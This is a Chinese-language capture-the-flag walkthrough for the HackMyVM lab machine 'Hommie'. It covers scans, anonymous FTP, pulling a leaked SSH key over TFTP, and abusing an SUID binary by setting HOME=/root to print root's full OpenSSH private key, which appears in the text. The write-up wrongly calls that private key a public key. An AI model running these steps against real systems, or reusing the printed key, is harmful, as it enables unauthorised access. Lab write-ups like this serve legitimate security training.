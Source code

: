 # Hommie

2024-11-04 https://hackmyvm.eu/machines/machine.php?vm=Hommie

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

访问 http://192.168.5.40/ 发现提示：

```
alexia, Your id_rsa is exposed, please move it!!!!! Im fighting regarding reverse shells! -nobody
```

发现用户名 alexia 提示 id_rsa 已经暴露

看 ftp 允许匿名登陆，发现 2 个目录，但是文件里面都没内容：

```
drwxrwxr-x    2 0        113          4096 Sep 30  2020 .web
-rw-r--r--    1 0        0               0 Sep 30  2020 index.html
```

发现 .web 目录中的 index.html 文件显示的内容与下面的 80 端口显示的一致，说明这里是 web 目录，尝试上传 web shell 后，但是 php 脚本不能执行，这个方向行不通。对 web 进行目录扫描也没发现有用的信息。

使用 nmap 对目标机器进行 udp 扫描，看看是否有开放端口:

```
sudo nmap -sU --min-rate 10000 --top-ports 20 -Pn 192.168.5.40
```

发现 tftp 可能端口开放，尝试连接 tftp 192.168.5.40 但是 tftp 不能 list 文件列表，尝试用上面说的 id_rsa 泄露这个文件名去 get id_rsa 发现可以下载。

使用此 id_rsa 进行登陆，得到 user flag:

```
alexia@hommie:~$ cat user.txt
Imnotroot
```

发现了 suid 程序 /opt/showMetheKey，使用 strings 对其进行分析，发现读取 id_rsa 的命令：

```
cat $HOME/.ssh/id_rsa
```

将 HOME 设置成 /root 就可以读取 root 下的 rsa 公钥文件：

```
HOME=/root

/opt/showMetheKey
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvBYog1I3rTTmtMw6i7oPRYy7yj8N6zNT3K9QhalnaTF+Md5NjbX5
hhNfZjO0tNbMGEeJtNTc3FpYWcAujrrd3jO5MzHUWAxQoyYYrZOFj2I5Fz/0RxD7e89H11
5nT7+CSUeddP/UeoyvSPgaruwrwD+dUl7+GiXo3sc5vsq3YufTYh1MlMKb/m7KmVk5n4Tk
/IFJwuuc3U4OZiRwXOmK4W2Gfo0Fonu6vFYmhpcCsi7V8g3hpVmOZIU8ZUtG1YbutCVbOC
EGyc1p5nbnyC0IIF5Y2EhjeevX8gmj4Kdv/y6yuvNdsJKm+ed2EEY9AymmPPwIpQshFwKz
Y0yB8N1jkQAAA8BiCyR9YgskfQAAAAdzc2gtcnNhAAABAQC8FiiDUjetNOa0zDqLug9FjL
vKPw3rM1Pcr1CFqWdpMX4x3k2NtfmGE19mM7S01swYR4m01NzcWlhZwC6Out3eM7kzMdRY
DFCjJhitk4WPYjkXP/RHEPt7z0fXXmdPv4JJR510/9R6jK9I+Bqu7CvAP51SXv4aJejexz
m+yrdi59NiHUyUwpv+bsqZWTmfhOT8gUnC65zdTg5mJHBc6YrhbYZ+jQWie7q8ViaGlwKy
LtXyDeGlWY5khTxlS0bVhu60JVs4IQbJzWnmdufILQggXljYSGN569fyCaPgp2//LrK681
2wkqb553YQRj0DKaY8/AilCyEXArNjTIHw3WORAAAAAwEAAQAAAQA/OvPDshAlmnM0tLO5
5YLczsMS6r+zIj4/InDffmPVaV4TRbisu1B3Umvv39IQOWXDg8k3kZfuPDEXexQrx4Zu/N
R18XqBXyJ8toH1WHK+ETdAKa/ldEAXD0gHjyUMGkWifQDiJF86E7GZxk6yH5NVvg0Vc/nY
sIXo3vD6wwuDo/gj+u4RRYMH3NYkLSj/O67cxGXnTOZPGzGsFTrE218BNtNqbRBR9/immU
irjugqebxY135Z4oECe/Hv4mP2e7n5QVO8FnYklQ4YU6y0ZTAMtjZCAhslXSKvaJPLjXuk
/HpdYhSoojm3vTAq/NT/oir0wA2ZYGdnF/Bxm6v/mntBAAAAgF2pqZEe9UqzcsAfOujr6z
DMRgPpl8qsdhDz6aftdg24AYmgXJ1D7PWUDpU6puO3VxJGrOwvcgD6xELRTxeFjd/2ssrh
4OO/kTvK4K0WVB/bnZ4y724iLcThfHDbzTTc5ckn45tyso8540iKha5ay1i24GwRPWddie
B/qcB1bHNOAAAAgQDmmptuwTRwUSiU1NtZRnJFvxvzLw6Wy/Cb2G+n5KY0ce5cYHT2HSIr
zsbPaDXQNBFy4iu1DAXAJJXTrxjOaAeLVYSb/8eZ1dhcgkxoAC8i2l6NwNmsjhGQKv++fV
qMfIdzVmriLXBZf7DU97YZeDIOrdOOV5CHhq+37i4xNdK18wAAAIEA0Mzc8HYvrXk4ecyi
KXP5u2Zxw2LADJ8DFeKWZmCUuNKFD1TuqdauxKxIVKVDaHvcnEr1bOiEBBso/X1CCtKjE+
12ZOWvqZ4fORxiNs9n/9YxlUSDAw7kyKd9H7dRRFdtb80OgDiwf18tDlEdboGWm/DR0NPq
gmxzbd40GES6DWsAAAALcm9vdEBob21taWU=
-----END OPENSSH PRIVATE KEY-----
```

得到了 root 的公钥文件，使用其进行登陆，最终得到了 root flag：

```
root@hommie:~# find / -type f -name root.txt 2>/dev/null
/usr/include/root.txt
root@hommie:~# cat /usr/include/root.txt
Imnotbatman
```
